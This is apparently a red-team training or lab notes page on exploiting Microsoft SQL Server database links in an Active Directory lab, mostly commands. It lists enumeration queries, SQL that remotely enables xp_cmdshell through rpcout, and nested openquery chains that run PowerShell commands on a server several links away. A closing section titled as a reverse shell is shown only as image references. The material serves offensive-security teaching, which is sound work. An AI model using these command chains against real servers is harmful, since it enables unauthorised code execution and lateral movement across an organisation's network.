 Database links work even across forest trusts.

Searching Database Links -->

* Look for links to remote servers

```
Get-SQLServerLink -Instance dcorp-mssql -Verbose
Or
select * from master..sysservers
```

Enumerating Database Links - Manually -->

* Openquery() function can be used to run queries on a linked database

```
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Enumerating Database Links -->

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

OR

Openquery queries can be chained to access links within links (nested links)

```
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from master..sysservers'')')
```

Executing Commands -->

* On the target server, either xp\_cmdshell should be already enabled; or
* If rpcout is enabled (disabled by default), xp\_cmdshell can be enabled using -

```
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

* Use the -QuertyTarget parameter to run Query on a specific instance (without -QueryTarget the command tries to use xp\_cmdshell on every link of the chain)

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "execmaster..xp_cmdshell 'whoami'" -QueryTarget eu-sql
```

* From the initial SQL server, OS commands can be executed using nested link queries -

```
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

**Getting reverse shell from eu-sql database server link -**

![](<.gitbook/assets/image (15).png>)

![](<.gitbook/assets/image (16).png>)
